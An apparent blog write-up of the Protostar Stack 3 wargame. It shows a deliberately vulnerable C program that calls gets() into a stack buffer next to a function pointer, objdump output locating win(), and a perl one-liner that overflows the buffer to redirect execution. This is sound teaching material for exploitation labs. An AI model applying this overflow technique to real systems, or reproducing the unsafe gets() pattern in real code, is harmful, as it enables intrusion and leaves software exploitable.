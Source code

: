 ```yaml
---
title: "Exploit Exercises - Protostar Stack 3"
date: "2011-12-15T05:52:00-05:00"
comments: true
highlight: "true"
categories:
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
---
```


[This](http://exploit-exercises.com/protostar/stack3) challenge starts getting a little bit more involved than the previous ones.  Instead of just providing a new value for the "modified" variable, we need to make the code jump to a method, changing the execution.

<!-- more -->

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
 printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
 volatile int (*fp)();
 char buffer[64];

 fp = 0;

 gets(buffer);

 if(fp) {
  printf("calling function pointer, jumping to 0x%08x\n", fp);
  fp();
 }
}
```

This means that first of all, we need to find the address of where the "win()" function is located in the program.  To do this, I used objdump, however you could use gdb as well, or any other disassembly program.  I have cut the useful part of the output below, since it gives a <i>lot</i> of information we don't need.

```
user@protostar:/opt/protostar/bin$ objdump -d stack3
...

08048424 <win>:
8048424:       55                      push   %ebp
8048425:       89 e5                   mov    %esp,%ebp
8048427:       83 ec 18                sub    $0x18,%esp
804842a:       c7 04 24 40 85 04 08    movl   $0x8048540,(%esp)
8048431:       e8 2a ff ff ff          call   8048360 <puts@plt>
8048436:       c9                      leave
8048437:       c3                      ret
...
```

From this, we can now see that the "win()" function is located at 0x08048424 in the memory.  So if we can get our program to jump there, it will execute that code.  Luckily the "fp" pointer in the code gets called if it is not equal to 0.  We just need to overwrite it with the memory value of "win()" by doing the following:

```
user@protostar:/opt/protostar/bin$ perl -e 'print "A"x64 . "\x24\x84\x04\x08"' | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```
